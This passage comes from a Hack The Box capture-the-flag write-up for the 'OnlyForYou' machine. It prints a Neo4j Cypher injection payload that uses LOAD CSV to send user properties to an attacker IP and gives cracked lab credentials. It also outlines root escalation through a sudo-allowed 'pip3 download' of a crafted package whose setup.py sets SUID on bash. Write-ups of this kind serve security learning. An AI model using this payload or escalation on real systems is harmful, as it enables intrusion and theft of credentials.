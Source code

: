 ![neo4j-tables](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/neo4j-tables.png)

Payload #2 (extract properties of user label):

`' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.47:80/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //`.

![neo4j-creds-burp](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/neo4j-creds-burp.png)

![neo4j-creds](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/neo4j-creds.png)

We can see hashed password for the user `john`. We can crack it using [crackstation](https://crackstation.net/).

![crackstation](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/crackstation.png)

Now we can login using SSH as `john:ThisIs4You` and read `user.txt`.

![user-flag](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/user-flag.png)

## Shell as root

Let's check the sudo permissions allowed to our user `john`.

![sudo-priv](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/sudo-priv.png)

As seen above, we can download `.tar.gz` files from `Gogs` using `pip3` without root privileges.

> `pip download` does the same downloading as `pip install`, but instead of installing the dependencies, it collects the downloaded distributions into the directory provided (defaulting to the current directory).

From the previous image we can see that the download privileges are affecting the `Gogs` web service running on port `3000`. Let's try to `john`'s login credentials `john:ThisIs4You` in the sign in page of the `Gogs` website.

As seen below, we have access to a git workspace, so we can upload `.tar.gz` files there.

![gogs-dashboard](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/gogs-dashboard.png)

Now if we search for `pip3 download` exploit, we will find that `pip download` vulnerable to [code execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/).

First, we need to download [this repository](https://github.com/wunderwuzzi23/this_is_fine_wuzzi) and edit `setup.py` file to execute our commands from `RunCommand` function.

The only command we are using is `chmod` to change the `suid` of `bash` file.;

![root-exploit](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/root-exploit.png)

Then, we need to run `python3 -m build` to generate `.tar.gz` file.

![python3-build](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/python3-build.png)
